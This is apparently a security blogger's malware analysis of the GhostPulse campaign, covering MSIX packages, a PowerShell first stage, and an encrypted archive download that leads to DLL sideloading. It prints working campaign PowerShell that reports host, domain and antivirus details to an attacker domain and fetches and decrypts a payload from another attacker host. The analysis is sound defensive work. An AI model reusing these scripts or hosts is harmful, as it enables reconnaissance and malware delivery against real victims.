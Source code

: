 ```yaml
---
layout: post
title: Campaign Analysis - GhostPulse
date: 23-10-2024
categories: [Emerging Threats, Malware]
tag: [Malware, Emerging Threats]
---
```


![Banner ghostpulse](assets/images/blogs/ghostpulse/Banner-ghostpulse.png)

On the 27th October 2023, [Elastic Security Labs 2023](https://www.elastic.co/security-labs/ghostpulse-haunts-victims-using-defense-evasion-bag-o-tricks#stage-2) followed a campaign to compromise users with signed [MSIX](https://learn.microsoft.com/en-us/windows/msix/overview) application packages to gain initial access. The campaign leverages a stealthy loader that Elastic has named GHOSTPULSE, which decrypts and loads a final payload capable of evading detection. In October 2024, [Elastic Security Labs 2024](https://www.elastic.co/security-labs/tricks-and-treats) posted an update to this campaign, where the GhostPulse loader hides inside a `.png` image using stegonography, eventually demploying itself and loading the **Lumma InfoStealer**

In this post, I will be covering this campaign from the beginning and right up to October 2024, analysing the malware samples as I go, and providing context on the technical aspects that allows these novel techniques to work.

## What is MSIX?

MSIX is a packaging format used by Microsoft, intended to be the successor to the older MSI and ClickOnce formats. It allows developers to package applications into containers for deployment on different devices. It aims to be the universal Windows application package format, and can be used for all types of Windows applications, including UWP (Universal Windows Platform), Windows Forms, Windows Presentation Foundation (WPF), and Win32.

The improtant point is that MSIX packages can be installed with a double-click, making them convinient for adversaries looking to exploit victims with *normal* seeming practises. However, However, MSIX requires access to purchased or stolen code signing certificates making them viable to groups of above-average resources.

In a common attack scenario, victims would be directed to download malicious MSIX packages through compromised websites, search-engine optimization (SEO) techniques, or malvertising through typosquatted domains.

The campaign will be broken down into key stages, with the 2024 evolutions of the malware discussed throughout.

## Stage 1 - The Powershell Script

The fist stage of this attack flow would involve the user getting hold of a malicious MSIX installer, such as through phishing. There are a number of MSIX installer samples for this campaign in existence, the one I cover here is different to what Elastic Security Labs covers.

Below is a Powershell script that serves as the first stage of the infection, in this infection it was called `2609_corp_user0.ps1`:

```powershell

$SS = Get-Random -Minimum 1500 -Maximum 3000
sleep -Milliseconds $SS
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12


$LoadDomen = "https://fresh-prok.site"



$osCaption = (Get-WmiObject -Class Win32_OperatingSystem).Caption
$urlEncodedOsCaption = [System.Net.WebUtility]::UrlEncode($osCaption)


$domain = Get-WmiObject Win32_ComputerSystem | Select-Object -ExpandProperty Domain
$AV = Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct
$dis = $AV | ForEach-Object {
    $_.displayName
}
$Names = $dis -join ", "


$lnk = "$LoadDomen/?status=start&av=$Names&domain=$domain&os=$urlEncodedOsCaption"
$response = Invoke-RestMethod -Uri $lnk -Method GET
if ($response -match "404 HTTP Error") {
    Write-Host "Received 404 HTTP Error."

    exit
}
```
The Powershell script above performs a number of actions:

* Firstly, it generates a random sleep time in milliseconds between 1500 and 3000 and then waits for that duration.

* It then sets the SecurityProtocol property of the `Net.ServicePointManager` class to `Tls12`, indicating the script should communicate over a network using the `TLS` 1.2 protocol.

* It sets the `$LoadDomen` variable to the URL `"httpx[:]//fresh-prok[.]site"`.

* It retrieves information via WMI about the operating system, its domain, and installed antivirus products on the system. With this information, it will construct a URL.

* It sets the variable lnk to a URL constructed from the `$LoadDomen` variable with several query parameters, such as the status, AV, the domain, and the OS.

* It uses `Invoke-RestMethod` to send a GET request to the lnk URL and stores the HTTP response in the `$response` variable.

* It checks if the HTTP 404 error is present in the response. If it is, it writes **"Received 404 HTTP Error"** to the host process and stops the script execution.

Other Powershell scripts observed throughout this campaign have additional functionality to that covered above, I encourage you read the Elastic blogs linked above to see the additional functionality shown in the other scripts.

## Stage 2 - Libcurl.dll

In other Powershell scripts, this code addition has been in place which accounts for the download of a `.tar` or `.rar` file:

```powershell
# 1
$url = "httpx://manojsinghnegi[.]com/2[.]tar.gpg"
$outputPath = "$env:APPDATA\$xxx.gpg"
Invoke-WebRequest -Uri $url -OutFile $outputPath

# 1
echo 'putin' | .$env:APPDATA\gpg.exe --batch --yes --passphrase-fd 0 --decrypt --output $env:APPDATA\$xxx.rar $env:APPDATA\$xxx.gpg

```
The file is downloaded from the domain, decrypted, and saved into `AppData`.

![Inside the tar file](assets/images/blogs/ghostpulse/inside-tar.png)


Inside the `.tar`/`.rar` file there are three items:

* `libcurl.dll`

* `handoff.wav`

* `VBoxSVC.exe` (actually a renamed and signed `gup.exe` executable that is used to update **Notepad++**, which is vulnerable to sideloading)

The file meatdata for `VBoxSVC.exe` is below:

![GUP EXE properties](assets/images/blogs/ghostpulse/gup-properties.png)